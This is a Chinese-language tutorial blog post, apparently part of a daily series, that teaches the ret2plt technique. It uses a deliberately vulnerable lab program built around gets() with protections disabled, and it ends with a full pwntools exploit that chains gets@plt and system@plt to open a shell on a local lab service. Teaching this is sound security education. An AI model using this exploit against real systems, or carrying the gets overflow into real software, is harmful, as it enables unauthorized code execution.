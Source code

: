 ```yaml
---
title: "Day15－ret2plt"
date: 2024-09-15
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

昨天剛學完神奇的 one gadgets，今天我們將回到 PLT 表，介紹 ret2plt 的攻擊手法。如果沒有足夠的 gadgets 可供使用，並且無法 leak libc，我們可以將目標轉向 PLT。這種技巧通常被稱為 ret2plt。

## ret2plt

顧名思義，ret2plt 就是將執行流程返回到 PLT 表上。那麼，為什麼這樣做可以取得 shell 呢？我們先來看幾個例子：

- `write(1, "ret2plt", 7)` 在 stack 上的狀況會是：

![image](https://hackmd.io/_uploads/HyhP4cl0R.png)

- `puts("ret2plt")` 在 stack 上的狀況會是：

![image](https://hackmd.io/_uploads/S1eWnKl00.png)

這些例子中，實際上都是輸出 "ret2plt" 這個字串。如果有可以利用的 PLT 表，就可以用更短的 chain 完成，而不需要尋找過多可用的 gadgets。類似的：

- `system("/bin/sh")` 在 stack 上的狀況會是：

![image](https://hackmd.io/_uploads/BkB16txRR.png)

這代表我們可以先透過 `gets` 或其他可以寫入的 PLT 將資料寫進可寫區域，然後把該區域當作 `system@plt` 的參數，這樣就可以將 `/bin/sh` 或 `sh` 寫入並呼叫 `system@plt`。如此一來，便能開啟 shell。

簡單來說，ret2plt 是透過 binary 中已有的函數，先準備好參數，然後直接呼叫這些函數來達成攻擊目的。即使在無法 leak libc 的情況下，也能透過返回 PLT 表來使用該函數，這就是 ret2plt。

## Lab

查看以下程式碼：

```c=
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void pop_rdi(){
    __asm__("pop %rdi; ret;");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    system("echo 'Welcome to challenge!'");
    printf("Leave a message: ");
    gets(message);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/ret2plt.c -o ./ret2plt/share/ret2plt -fno-stack-protector -no-pie
```

你可以自行嘗試這個題目，或繼續閱讀以下解題步驟。

## Writeup

首先，程式在一開始使用了 `system` 來 echo 一段文字，這代表程式編譯時會有 `system@plt`。同時，程式也使用了 `gets`，這使得我們可以進行 buffer overflow 並輸入資料。題目中也沒有 Canary 和 PIE，符合我們進行 ret2plt 的條件。接下來，我們只需要確認以下資訊即可開始撰寫 exploit：

- 可以將資料寫在哪個位置
- 如何疊加 chain

首先，使用 GDB 查看可以寫入的區域。我們可以先執行 `gdb ./ret2plt`，然後設置中斷點 `b main`，執行 `r`，再使用 `vmmap` 查看程式的記憶體區塊。會發現 0x404000~0x405000 之間是可寫的區域。接著，我們可以從後面開始檢查，如 `x/10gx 0x405000-0x100`，發現這些地方沒有被寫入。因此，我們可以選擇 0x404f00 作為寫入位置。

![image](https://hackmd.io/_uploads/H1kFdql00.png)

![image](https://hackmd.io/_uploads/HkVeKql0R.png)

接著，我們需要使用 `pop rdi` 將要輸入的位置傳遞給 `gets`，這可以透過 `ROPgadget --binary ret2plt | grep "pop rdi"` 找到。我們發現 0x40115a 是 `pop rdi; ret`。

![image](https://hackmd.io/_uploads/HJkdK9e00.png)

接著，使用 `objdump` 查看 `gets@plt` 和 `system@plt` 的地址，輸入 `objdump -M intel -d ret2plt`。結果顯示 `gets@plt` 在 0x401050，`system@plt` 在 0x401030。同時，我們還要確認 padding 的大小，發現輸入會從 `rbp-0x10` 開始，因此 padding 是 `0x10+0x8=0x18`。

![image](https://hackmd.io/_uploads/rJ_Jq9gC0.png)

![image](https://hackmd.io/_uploads/BJGe99eAR.png)

![image](https://hackmd.io/_uploads/rk8Eq9xA0.png)

資訊確認完畢後，我們可以開始撰寫 exploit。

完整 exploit：

```py=
from pwn import *

# r = process('../ret2plt/share/ret2plt')
r = remote('127.0.0.1', 10007)

pop_rdi = 0x000000000040115a
gets_plt = 0x401050
system_plt = 0x401030
bss = 0x404f00

payload = b"A" * (0x10 + 0x8) + p64(pop_rdi) + p64(bss) + p64(gets_plt) + p64(pop_rdi) + p64(bss) + p64(system_plt)

r.sendlineafter(b"Leave a message: ", payload)
r.sendline(b"/bin/sh")
r.interactive()
```

簡單來說，就是透過 `pop rdi; ret` 和 `gets@plt` 將 `/bin/sh` 寫入到 BSS 段，接著再使用 `pop rdi; ret` 將 BSS 段的資料傳遞給 `system@plt`，以此開啟 shell。

solve！！

![image](https://hackmd.io/_uploads/BJoboqgRC.png)
